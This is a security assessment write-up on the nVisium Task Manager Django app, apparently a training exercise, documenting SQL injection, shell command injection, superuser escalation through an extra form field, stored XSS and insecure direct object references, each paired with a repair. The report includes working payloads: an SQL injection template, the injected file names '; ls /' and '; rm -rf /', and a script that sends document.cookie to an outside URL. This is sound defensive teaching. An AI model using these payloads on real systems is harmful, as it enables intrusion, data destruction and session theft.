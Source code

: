 # Vulnerability Report on nVisium Task Manager

Reviewer 1: Marc Fieser

Reviewer 2: Ford Fowler

Date: Feb 4, 2017

## Injection

### Exposure

Looked for vulnerabilities in any form view and found that the project file upload form directly includes form
input in SQL statements. The form exists at this url:

.../taskManager/project_id/upload/

and has a 'File Name' field where you can insert both SQL and shell commands.

#### Injecting SQL

```<filename>',(select <whatever you want> from <some table> where <some condition>),<your project id>);--```

With this line, you can inject SQL queries directly into the database and gain access to a variety
of information. For example, you get a user's email or (hashed) password, you can get usernames, you can get
information on projects and tasks. Tables I accessed:

* auth_user
* taskManager_project
* taskManager_task
* taskManager_userprofile
* taskManager_file

All of the information shows up in the file's path.

I tried:

```droptable',(select title from taskManager_project where id=10),10); Drop table taskManager_project;--```

to try and drop a table, but an exception was raised saying I could only execute one statement at a time.

#### Injecting shell commands

```; ls /```

Upload a file with this as the file name and you are shown all root directories and files.
You could potentially inject "; rm -rf /" which would delete everything on the system.

### Repair

In the 'upload' view in taskManager/views.py:

To inhibit SQL injection, use Django's built in validation tools. Replace
```
curs = connection.cursor()
            curs.execute(
                "insert into taskManager_file ('name','path','project_id') values ('%s','%s',%s)" %
                (name, upload_path, project_id))
```
with
```
file = File(
    name=name,
    path=upload_path,
    project=proj
)

file.save()
```

To inhibit shell injection, don't name files based directly on user input. Replace
```
name = request.POST.get('name', False)
```
with
```
name = ''.join(random.choice(string.lowercase) for i in range(length))
```

## Broken Auth and Session Management

### Exposure

The UserForm built on the Django user class doesn't exclude the 'is_superuser' field.
In the browser, I added another input field to the registration form
```
<input name='is_superuser' type='checkbox' checked>
```
which made my new user a superuser. I can create new projects (I previously could but now I get
a button), I can manage permissions, etc.

### Repair

You could add 'is_superuser' to the 'excludes' blacklist, or you could explicitly state
which fields should be allowed. To do the latter, in UserForm within taskManager/forms.py, replace
```
exclude = ['groups', 'user_permissions', 'last_login', 'date_joined', 'is_active']
```
with
```
fields = ('username', 'first_name', 'last_name', 'email', 'password')
```

## Cross-site Scripting

### Exposure

In 'base_backend.html', the user's username is inserted into the html document with the 'safe' filter.
So any code in the username will be executed. I inserted:
```
myname</span><script>document.location= 'http://www.google.com?foo='+document.cookie</script>
```
as my username, but my browser console raised an error saying the XSS Auditor refused to execute the script
since it's source code was found in the request. But if I then just go somewhere else, say the homepage,
the page renders my username and in doing so runs the script redirecting me to google with the cookie attached.
A very similar script can be inserted into the create/edit task form with the same results.

A similar vulnerability exists in the search page where you can insert code into the href of the refresh button,
but I couldn't get around the XSS Auditor in this case.

### Repair

Really just get rid of the 'safe' filter.
In 'search.html', 'task_details.html', and 'base_backend.html', replace
```
{<some data> | safe}
```
with
```
{<some data>}
```

## Insecure Direct Object References

### Exposure

Other than a couple of protected pages, I can access any page I want and I can edit anything I want.
For example, I can access the admin's profile, change their email to mine, say I forgot my password, then change
their password and take over the account.

### Repair

There are quite a lot of view functions lacking user authentication. For each of these, the appropriate
check is required to ensure that the user has permission to view or do what they are trying to.

For example, in the project file 'upload' view, replace
```
if request.method == 'POST':

    proj = Project.objects.get(pk=project_id)
    form = ProjectFileForm(request.POST, request.FILES)

    ...

    return redirect('/taskManager/' + project_id +
                                '/', {'new_file_added': True})

else:
    form = ProjectFileForm()
return render_to_response(
    'taskManager/upload.html', {'form': form}, RequestContext(request))
```
with
```
if request.user.has_perm('project_edit'):
    if request.method == 'POST':

        proj = Project.objects.get(pk=project_id)
        form = ProjectFileForm(request.POST, request.FILES)

        ...

        return redirect('/taskManager/' + project_id +
                                '/', {'new_file_added': True})

    else:
        form = ProjectFileForm()
    return render_to_response(
        'taskManager/upload.html
else:
    return redirect('/taskManager/', {'permission': False})
```

Other permissions include:
* 'task_delete'
* 'task_edit'
* 'task_add'
* 'project_delete'
* 'project_edit'
* 'project_add'
* 'user_edit'
